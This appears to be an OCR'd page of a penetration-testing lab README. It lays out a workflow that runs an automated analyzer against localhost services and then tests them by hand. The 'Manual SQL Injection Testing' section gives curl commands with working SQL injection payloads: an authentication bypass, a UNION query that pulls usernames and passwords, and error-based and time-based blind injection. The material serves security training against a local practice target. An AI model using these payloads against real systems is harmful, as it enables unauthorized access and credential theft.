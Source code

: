 ### Professional Workflow Integration

```bash
# Step 1: Automated Baseline (30 minutes)
python src/analyzer/penetration_analyzer.py localhost:5000 > reports/automated_assessment.txt
python src/analyzer/penetration_analyzer.py localhost:9090 >> reports/automated_assessment.txt

# Step 2: Analysis and Prioritization (15 minutes)
grep -E "CRITICAL|HIGH" reports/automated_assessment.txt > reports/priority_targets.txt
wc -l reports/priority_targets.txt  # Count high-priority issues

# Step 3: Manual Validation and Extension (60-90 minutes)
# Focus manual testing on automated findings and gaps
curl -X POST "http://localhost:5000/login" -d "username=admin' OR 1=1--&password=test"

# Step 4: Combined Reporting (30 minutes)
echo "Automated Findings:" > reports/combined_assessment.txt
cat reports/automated_assessment.txt >> reports/combined_assessment.txt
echo "Manual Validation:" >> reports/combined_assessment.txt
# Add manual findings...
```

## ⚔️ Controlled Exploitation

### Automated Vulnerability Discovery

```bash
# Use automated tool to identify exploitable vulnerabilities
python src/analyzer/penetration_analyzer.py localhost:5000

# Review automated findings for exploitation targets
grep -A 5 -B 5 "CRITICAL\|HIGH" reports/automated_pentest.txt

# Automated tool capabilities:
# ✅ SQL injection detection and testing
# ✅ XSS vulnerability identification  
# ✅ Weak authentication discovery (dictionary attacks)
# ✅ Configuration issue identification
# ✅ Security header analysis
```

### Manual SQL Injection Testing

```bash
# Basic authentication bypass (validate automated findings)
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' OR '1'='1&password=anything" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Union-based injection (extend automated discoveries)
curl -X POST "http://localhost:5000/search" \
  -d "query=' UNION SELECT username,password FROM users--" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Error-based injection (manual technique)
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' AND (SELECT COUNT(*) FROM users)>0--&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"

# Time-based blind injection (advanced manual technique)
curl -X POST "http://localhost:5000/login" \
  -d "username=admin' AND (SELECT sleep(5))--&password=test" \
  -H "Content-Type: application/x-www-form-urlencoded"
```
